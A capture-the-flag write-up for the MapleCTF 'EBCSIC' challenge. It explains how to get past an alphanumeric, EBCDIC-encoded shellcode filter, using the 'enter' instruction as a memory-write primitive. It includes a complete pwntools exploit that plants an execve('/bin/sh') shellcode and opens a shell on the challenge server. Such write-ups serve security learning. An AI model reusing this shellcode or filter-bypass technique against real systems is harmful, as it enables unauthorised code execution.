


### EBCSIC



**EBCSIC** was a restricted shellcode challenge from MapleCTF,

the challenge file provided a python script wrapper, that read the shellcode, verify that it is correct and execute it.

```python
#!/usr/bin/env python3
import string
import ctypes
import os
import sys
import subprocess

ok_chars = string.ascii_uppercase + string.digits
elf_header = bytes.fromhex("7F454C46010101000000000000000000020003000100000000800408340000000000000000000000340020000200280000000000010000000010000000800408008004080010000000000100070000000000000051E5746400000000000000000000000000000000000000000600000004000000")

print("Welcome to EBCSIC!")
sc = input("Enter your alphanumeric shellcode: ")
try:
    assert all(c in ok_chars for c in sc)
    sc_raw = sc.encode("cp037")
    assert len(sc_raw) <= 4096
except Exception as e:
    print("Sorry, that shellcode is not acceptable.")
    exit(1)

print("Looks good! Let's try your shellcode...")
sys.stdout.flush()

memfd_create = ctypes.CDLL("libc.so.6").memfd_create
memfd_create.argtypes = [ctypes.c_char_p, ctypes.c_int]
memfd_create.restype = ctypes.c_int

fd = memfd_create(b"prog", 0)
os.write(fd, elf_header)
os.lseek(fd, 4096, 0)
os.write(fd, sc_raw.ljust(4096, b"\xf4"))
os.execle("/proc/self/fd/%d" % fd, "prog", {})
```

you can send a shellcode composed only of `ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789` chars, of a max len of 4096.

That input is converted to `cp037` charset:



so in the end, as you can see in this table , it translates to this possible opcodes:

`c1 c2 c3 c4 c5 c6 c7 c8 c9 d1 d2 d3 d4 d5 d6 d7 d8 d9 e2 e3 e4 e5 e6 e7 e8 e9 f0 f1 f2 f3 f4 f5 f6 f7 f8 f9`

then the wrapper cleverly use `memfd_create` to create an elf file in memory, and execute it via `execle`.

the shellcode will be executed as a 32bit ELF file so, at a fixed mapped address of 0x8048000,

the code zone will be mapped as a RWX zone as you can check with `readelf -a` on the file

```bash
Type           Décalage Adr. vir.  Adr.phys.  T.Fich. T.Mém.  Fan Alignement
LOAD           0x001000 0x08048000 0x08048000 0x01000 0x10000 RWE 0
GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x4
```

### So what...

so the trick I used was to use `enter` instruction to write `ebp` register content, to `esp-4` address,

it will be our write primitive so...

and to set registers ebp and esp to the values we want:

I used this macro for example to set a bit to 0 or 1 in `esp`:

```python
set_esp_1 = mov_cl_F1 + shr_ecx_1 + rcl_esp_1
set_esp_0 = mov_cl_F2 + shr_ecx_1 + rcl_esp_1
```

we put a value in `cl` register with bit 0 set or unset,   shift this value right , the LSB bit will be put in `C` flag, then use `RCL esp, 1` to put `C` flag in LSB of `esp`

like this , we can put bit by bit any value we want in `esp`

we did the same with `ebp`.

with our write primitive, we wrote a shellcode at address `0x8048000 + 0xc200` in the RWX zone

then as `enter` also leave the address written before the data written in memory (as a stack frame)

we just use `ret` instruction in the end to jump in our classical `execve` shellcode..

Here is the resulting shellcode:

```python
from pwn import *
context.update(arch="i386", os="linux")
context.log_level = 'error'
import sys

rcl_ecx_1 = 'JJ'
rcl_edx_1 = 'JK'
rcl_ebx_1 = 'JL'
rcl_esp_1 = 'JM'
rcl_ebp_1 = 'JN'
rcl_esi_1 = 'JO'
rcl_edi_1 = 'JP'
rcr_eax_1 = 'JQ'
rcr_ecx_1 = 'JR'

rol_ecx_1 = 'JA'
rol_edx_1 = 'JB'
rol_ebx_1 = 'JC'
rol_esp_1 = 'JD'
rol_ebp_1 = 'JE'
rol_esi_1 = 'JF'
rol_edi_1 = 'JG'
ror_eax_1 = 'JH'
ror_ecx_1 = 'JI'

neg_al = '6Q'
not_dh = '6O'
shr_eax_1 = '33JY'
rcl_ah_cl = 'KM'
mov_cl_F1 = 'FA1'
mov_cl_F2 = 'FA2'
shr_ecx_1 = 'JR'
mov_dl_F7 = 'FB7'
enter = 'HAAA'

shellc2 = asm('''
  push 11
  pop eax
  push   ebx
  push   0x68732f2f
  push   0x6e69622f
  mov    ebx,esp
  xor ecx,ecx
  int    0x80
''')

print(hexdump(shellc2))
set_esp_1 = mov_cl_F1 + shr_ecx_1 + rcl_esp_1
set_esp_0 = mov_cl_F2 + shr_ecx_1 + rcl_esp_1

set_ebp_1 = mov_cl_F1 + shr_ecx_1 + rcl_ebp_1
set_ebp_0 = mov_cl_F2 + shr_ecx_1 + rcl_ebp_1

shellcode = ''

def write(addr, value):
  global shellcode
  for i in range(32):
    if (addr & (1<<(31-i))):
      shellcode += set_esp_1
    else:
      shellcode += set_esp_0
  for i in range(32):
    if (value & (1<<(31-i))):
      shellcode += set_ebp_1
    else:
      shellcode += set_ebp_0
  shellcode += enter

dest = 0x8048000 + 0xc200

# write shellcode to memory with enter
write(dest+4+0x10, u32(shellc2[0x10:0x14]))
write(dest+4+0x0c, u32(shellc2[0x0c:0x10]))
write(dest+4+0x08, u32(shellc2[0x08:0x0c]))
write(dest+4+0x04, u32(shellc2[0x04:0x08]))
write(dest+4, u32(shellc2[0:0x4]))

# set esp to shellcode pointer before it
addr = 0x080541fc
for i in range(32):
  if (addr & (1<<(31-i))):
    shellcode += set_esp_1
  else:
    shellcode += set_esp_0
# jump to shellcode
shellcode += 'C'	# ret

if args.REMOTE:
  p = remote('ebcsic.ctf.maplebacon.org', 1337)
else:
  p = process('python3 ./chal.py', shell=True)

p.sendlineafter('shellcode: ', shellcode)

p.interactive()
```

*nobodyisnobody still pwning things...*